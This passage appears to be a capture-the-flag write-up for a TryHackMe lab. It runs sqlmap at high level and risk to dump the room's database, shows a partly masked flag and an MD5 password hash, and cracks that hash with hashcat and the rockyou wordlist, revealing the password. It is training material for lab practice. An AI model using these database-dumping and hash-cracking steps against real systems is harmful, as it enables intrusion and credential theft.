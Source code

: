 We can exploit this vulnerability and dump the database THM\_f0und\_m3 using 
``sqlmap -r request.txt --level=5 --risk=3 --dump``  

We found the Easter4 in the table nothing_inside.  
```
[14:08:09] [INFO] retrieved: THM{1nj3c7***********}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_***********} |
+-------------------------+
```

Sqlmap also found a table named user where we can find two users and one of them with a password hash.  
```
Database: THM_f0und_m3
Table: user
[2 entries]
+------------------------------------+----------+
| password                           | username |
+------------------------------------+----------+
| 05f3672ba34409136aa71b8d00070d1b   | DesKel   |
| He is a nice guy, say hello for me | Skidy    |
+------------------------------------+----------+
```

## Easter 5

If we try to analyse the hash we found in the database earlier, using a tool like [Hashes.com](https://hashes.com/en/tools/hash_identifier), 
we can see it is an MD5 hash.  
![](https://i.imgur.com/qP93LYA.png)  

We can try to crack this hash with hashcat and the rockyou.txt wordlist :  
```
┌──(attacker㉿AttackBox)-[~]
└─$ hashcat -a 0 -m 0 05f3672ba34409136aa71b8d00070d1b /usr/share/wordlists/rockyou.txt -w 3
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.1 AMD-APP (3110.6)) - Platform #1 [Advanced Micro Devices, Inc.]
=====================================================================================
* Device #1: Radeon RX 580 Series, 7424/7523 MB (4048 MB allocatable), 36MCU
...
05f3672ba34409136aa71b8d00070d1b:cutie                    
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 05f3672ba34409136aa71b8d00070d1b
...
```
